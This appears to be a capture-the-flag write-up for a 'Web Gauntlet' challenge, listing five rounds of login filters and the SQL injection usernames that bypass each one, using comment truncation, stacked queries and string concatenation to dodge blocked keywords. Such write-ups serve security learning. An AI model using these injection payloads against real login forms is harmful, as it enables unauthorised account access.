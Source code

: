 # Web Gauntlet

Query executed:

```sql
SELECT * FROM users WHERE username='<Username>' AND password='<Password>'
```

## Round 1

Filter: `or` \
Submit username: `admin';--`

## Round 2

Filter: `or` `and` `like` `=` `--`\
Submit username: `admin'; SELECT * FROM users WHERE '1`

## Round 3

Filter: `or` `and` `like` `=` `<` `>` `--`\
The previous solution should work, but isn't. Checking response in Networks tab of filter.php shows us the actual one \
Filter: `<space>` `or` `and` `like` `=` `<` `>` `--`\
Submit username: `admin';'1`

## Round 4

Filter: `<space>` `or` `and` `like` `=` `<` `>` `--` `admin`\
Submit username: `admi'||'n';'1`

## Round 5

Filter: `<space>` `or` `and` `like` `=` `<` `>` `--` `union` `admin`\
Previous one works
